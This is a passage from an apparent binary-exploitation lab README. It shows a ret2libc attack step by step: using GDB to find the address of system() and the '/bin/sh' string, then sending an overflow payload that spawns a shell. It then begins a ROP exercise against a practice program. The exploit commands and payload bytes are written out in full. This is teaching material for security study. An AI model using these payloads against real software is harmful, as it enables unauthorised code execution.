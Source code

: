    Inside GDB, utilize the `p` command to retrieve and print the address of the `system()` function:

   ```bash
   p system
   ```

   This might yield an output resembling:

   ```bash
   $1 = {<text variable, no debug info>} 0x7ffff7a53440 <system>
   ```

   Record the provided address (e.g., `0x7ffff7a53440`).

3. **Locate the `/bin/sh` String in Memory**:
   Start by determining the location of the environment variable, which can offer clues about where to find the `/bin/sh` string:

   ```bash
   p &environ
   ```

   Assuming this command returns an address like `0x7ffff7b98900`, use it to search for our desired string:

   ```bash
   find 0x7ffff7b98900, +9999999, "/bin/sh"
   ```

   A successful search will produce an address where the string is located, such as:

   ```bash
   0x7ffff7b98957
   ```

   To recap, you should now have:
   - Address of `system()`: (e.g., `0x7ffff7a53440`)
   - Address of `/bin/sh` string: (e.g., `0x7ffff7b98957`)

4. **Craft and Execute the Exploit**:
   Since ASLR can't be globally turned off, launch the program within GDB. Modify the addresses in the Python command below according to the results from your GDB outputs:

   ```bash
   run $(python -c "print('A' * 128 + 'B' * 8 + '\x40\x34\xa5\xf7\xff\x7f' + '\x57\x89\xb9\xf7\xff\x7f')")
   ```

## phase3.c

**Objective**: Use Return-Oriented Programming (ROP) to bypass modern security protections like DEP (Data Execution Prevention) and ASLR (Address Space Layout Randomization). The goal is to set the `global_flag` and then call the `win()` function to achieve a successful exploit.

### Steps:

1. **Compilation**:
   We are big boys now, and we will leave modern protections enabled:

   ```bash
   gcc phase3.c -o phase3
   ```
